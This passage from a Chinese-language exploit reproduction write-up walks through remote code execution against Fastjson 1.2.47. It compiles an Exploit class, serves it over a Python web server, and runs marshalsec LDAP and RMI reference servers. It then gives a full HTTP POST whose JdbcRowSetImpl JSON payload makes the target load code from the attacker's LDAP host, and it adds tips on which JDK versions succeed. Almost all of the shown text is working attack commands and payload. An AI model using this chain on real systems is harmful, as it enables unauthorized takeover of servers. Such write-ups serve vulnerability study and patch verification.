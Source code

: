 ```
javac Exploit.java  编译生成Exploit.class文件
```

python 启动 web 服务

```
python -m SimpleHTTPServer  1111
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVs2yfMaKSyVFPI9DcnafoSPTwPicXDLXbUAicQjial0fTTbBEENOw9k4FQ/640?wx_fmt=png)

通过 python 启动 exphttp 服务启动 ldap 服务 (RMI 服务)

本次复现使用 ldap 服务，同时也将 RMI 对应的操作也做了截图整理，主要是的原因的 RMI 的 JDk 版本支持，LDAPJava 的版本本环境的支持（注意 JDK 的版本，这个是可能成功与否的关键）。

不支持基本上，rmi 服务接受到了请求，直接就 close 掉了。注意这个细节点

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVn2ukCgvMibicpX3Pnm6U9HaFYyVzpPWI3qROb6ic5eRElxf56Qlev34zQ/640?wx_fmt=png)

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.RMIRefServer  http://XX.XX.XX.XX:1111/\#Exploit 9999
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer  http://XX.XX.XX.XX:1111/\#Exploit 9999
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVbIWgVXFPibVOCYAzFticCpj9ycdiabTX2ZodsB8IScRnl950q0VjhIa7Q/640?wx_fmt=png)

ldap 抓包访问修改数据包  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVf51YpZiagBMNbonJD8C5rfkdV4NNkdCznxTQ0GvK2RpS4cS8xO3js1g/640?wx_fmt=png)

```
POST /fastjson-1.2.47/ HTTP/1.1
Host: 192.168.0.104:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3494.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 275

{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "ldap://192.168.0.104:9999/Exploit", 
        "autoCommit": true
    }
}
```
